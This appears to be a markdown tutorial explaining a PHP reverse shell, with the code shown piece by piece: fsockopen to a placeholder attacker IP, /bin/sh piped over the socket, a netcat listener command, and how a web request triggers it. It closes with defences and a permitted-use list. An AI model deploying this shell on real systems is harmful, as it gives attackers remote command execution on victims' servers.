 ### **How the PHP Reverse Shell Works**
This script allows an attacker (or penetration tester) to get remote shell access to a machine running the PHP script. It works by opening a network connection to an attacker's system and executing a shell (`/bin/sh`) that redirects input/output over that connection.

---

### **Breakdown of the Code**
```php
<?php
$ip = 'YOUR_IP'; // Change this to your listening IP
$port = YOUR_PORT; // Change this to your listening port
```
- These variables define the attacker's **IP address** (where the shell will connect) and the **port number** (where the listener will be waiting).
- The script needs to be modified with the attacker's real IP address and a valid port number.

---

```php
$sock = fsockopen($ip, $port);
```
- `fsockopen()` is a PHP function that **creates a TCP connection** to the attacker's machine.
- It works like Netcat (`nc`), opening a socket to send and receive data.

---

```php
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
```
- `proc_open('/bin/sh', …)` starts a new shell process (`/bin/sh`).
- The `array(0 => $sock, 1 => $sock, 2 => $sock)` part:
  - **0** → Standard input (stdin) is connected to the socket.
  - **1** → Standard output (stdout) is connected to the socket.
  - **2** → Standard error (stderr) is also sent to the socket.
- This means that any command sent through the socket is executed on the target machine, and the results are sent back to the attacker.

---

### **Step-by-Step Execution**
1. **Attacker sets up a listener**  
   The attacker runs Netcat to wait for incoming connections:  
   ```
   nc -lvnp YOUR_PORT
   ```
   - `-l` → Listen mode  
   - `-v` → Verbose output  
   - `-n` → No DNS resolution  
   - `-p YOUR_PORT` → Listen on the specified port  

2. **Victim executes the PHP script**  
   - If the PHP script is accessible on a web server (`http://target.com/shell.php`), opening it in a browser will execute the script.
   - The script connects back to the attacker's machine.

3. **Attacker gets a shell**  
   - Once the connection is established, the attacker can execute commands on the victim's machine as if they had local terminal access.

---

### **How to Protect Against This Attack**
To prevent unauthorized reverse shells:
- **Disable dangerous PHP functions:**  
  ```
  disable_functions = exec, shell_exec, system, passthru, proc_open, popen
  ```
- **Use a Web Application Firewall (WAF)** to block malicious requests.
- **Restrict outgoing connections** from your web server.
- **Scan for malicious PHP scripts** using security tools.

---

### **Ethical Use Cases**
This script should only be used:
✅ In a **legal penetration testing** environment (with permission).  
✅ For **security research** on your own systems.  
✅ To test and **improve defenses** against real-world attacks.  

